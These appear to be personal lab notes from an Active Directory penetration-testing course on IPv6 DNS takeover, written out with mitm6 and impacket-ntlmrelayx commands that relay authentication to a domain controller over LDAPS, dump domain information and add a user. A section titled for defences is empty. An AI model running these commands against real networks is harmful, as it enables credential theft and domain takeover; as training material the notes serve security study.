

if ipv6 is turned on but we are only using ipv4
then who is doing dns for ipv6
answer is :nobody
so what we do on attacker machine is listen for all ipv6 messages
attack machine will act like dns for ipv6
when this happens,we can get authentication control to Domain Controller via LDAP or SMB
LDAP:The Lightweight Directory Access Protocol is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over an Internet Protocol (IP) network.
IPv6 DNS takeover via mitm6

#mitm6 -d marvel.local
-d:domain
#impacket-ntlmrelayx -6 -t ldaps://<domain controller ip> -wh fakewpad.marvel.local -l lootme
-t :target
-6:only ipv6
ldaps:ldap secure
now reboot any 1 of the windows 10 enterprise(either punisher or spiderman)

says domain info dumped to loot directory

#firefox domain_users_by_group.html


description tells password:so dont write pssword in description
also adds a new user


---------------Defend against IPv6 attacks------------------